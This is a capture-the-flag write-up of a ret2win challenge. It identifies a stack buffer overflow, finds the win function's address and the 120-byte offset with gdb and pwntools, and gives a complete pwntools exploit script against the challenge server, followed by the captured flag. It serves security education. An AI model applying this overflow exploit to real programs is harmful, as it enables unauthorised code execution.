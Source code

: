 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day12_description.png">



This was a classical ret2win, using dogbolt I could see the win and main functions:
<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_10_info.png">

Here it can be seen that the memset function sets the buffer of var_78 to 100 bytes and then the read function reads 256 bytes, so here is a buffer overflow. And since there is a win function, I need to somehow call it. It can be also seen that the return address of the main function is printed in the end, if I could overwrite it to the address of the win function, the main function will go to the win function, thus executing it. First, I need to find the address of the win function. I used gdb with the `info functions` command, it can be seen:

```bash
0x00000000004011f6  win
```

Now, the only information needed is the offset, basically we need 100 bytes to fill var_78 + some bytes to overwrite the main return address. For an easy way to find the whole offset I used:

```python
from pwn import *

payload=cyclic(200)
print(payload)
```

Which generates a payload of 200 bytes and I gave it as input to the binary file and use gdb to look at the value of RBP, which was  `0x6261616562616164 ('daabeaab')`. Then I found the offset using: 

```python
from pwn import *

print(cyclic_find(0x6261616562616164))
```

Which prints 112 and I need to add 8 bytes (the size of RBP itself), so the total offset is 120. Finally, I created the exploit script:

```python
from pwn import *

target_host = 'ctf.csd.lol'
target_port =  4003

win_address = 0x4011f6

payload = b'A' * 120
payload += p64(win_address)

conn = remote(target_host, target_port)
conn.recvuntil("enter your wish:")
conn.sendline(payload)
conn.interactive()
```

`csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`
